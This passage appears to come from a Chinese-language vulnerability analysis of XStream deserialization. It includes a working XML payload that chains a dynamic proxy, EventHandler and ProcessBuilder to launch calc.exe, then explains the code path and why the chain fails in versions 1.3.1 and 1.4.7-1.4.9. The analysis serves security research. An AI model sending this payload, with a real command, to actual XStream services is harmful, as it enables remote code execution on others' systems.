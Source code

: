 ```
&lt;tree-map&gt;
    &lt;entry&gt;
        &lt;string&gt;fookey&lt;/string&gt;
        &lt;string&gt;foovalue&lt;/string&gt;
    &lt;/entry&gt;
    &lt;entry&gt;
        &lt;dynamic-proxy&gt;
            &lt;interface&gt;java.lang.Comparable&lt;/interface&gt;
            &lt;handler class="java.beans.EventHandler"&gt;
                &lt;target class="java.lang.ProcessBuilder"&gt;
                    &lt;command&gt;
                        &lt;string&gt;calc.exe&lt;/string&gt;
                    &lt;/command&gt;
                &lt;/target&gt;
                &lt;action&gt;start&lt;/action&gt;
            &lt;/handler&gt;
        &lt;/dynamic-proxy&gt;
        &lt;string&gt;good&lt;/string&gt;
    &lt;/entry&gt;
&lt;/tree-map&gt;
```

我们第一个payload使用的是`sortedset`接口在`com.thoughtworks.xstream.core.TreeUnmarshaller#convertAnother`方法中`this.mapper.defaultImplementationOf(type);`

寻找到的实现类为`java.util.TreeSet`。根据实现类寻找到的转换器即`TreeSetConverter`。

这里使用的是`tree-map`,获取的实现类是他本身，转换器则是`TreeMapConverter`。同样是通过动态代理的map对象，调用putAll方法触发到`EventHandler.invoke`里面实现任意反射调用。

### <a class="reference-link" name="1.3.1%E7%89%88%E6%9C%AC%E6%97%A0%E6%B3%95%E5%88%A9%E7%94%A8%E5%8E%9F%E5%9B%A0"></a>1.3.1版本无法利用原因

`com.thoughtworks.xstream.core.util.HierarchicalStreams#readClassType`

[![](https://p5.ssl.qhimg.com/t01a208226829f4bcc8.png)](https://p5.ssl.qhimg.com/t01a208226829f4bcc8.png)

该行代码爆出`Method threw 'com.thoughtworks.xstream.mapper.CannotResolveClassException' exception.`无法解析异常。

发现是从遍历去调用map,调用realClass查找这里并没有从map中找到对应的class。所以这里报错了。

### <a class="reference-link" name="1.4.7-1.4.9%E7%89%88%E6%9C%AC%E6%97%A0%E6%B3%95%E5%88%A9%E7%94%A8%E5%8E%9F%E5%9B%A0"></a>1.4.7-1.4.9版本无法利用原因

`com.thoughtworks.xstream.core.TreeUnmarshaller#start`

```
Class type = HierarchicalStreams.readClassType(this.reader, this.mapper);
Object result = this.convertAnother((Object)null, type);
```
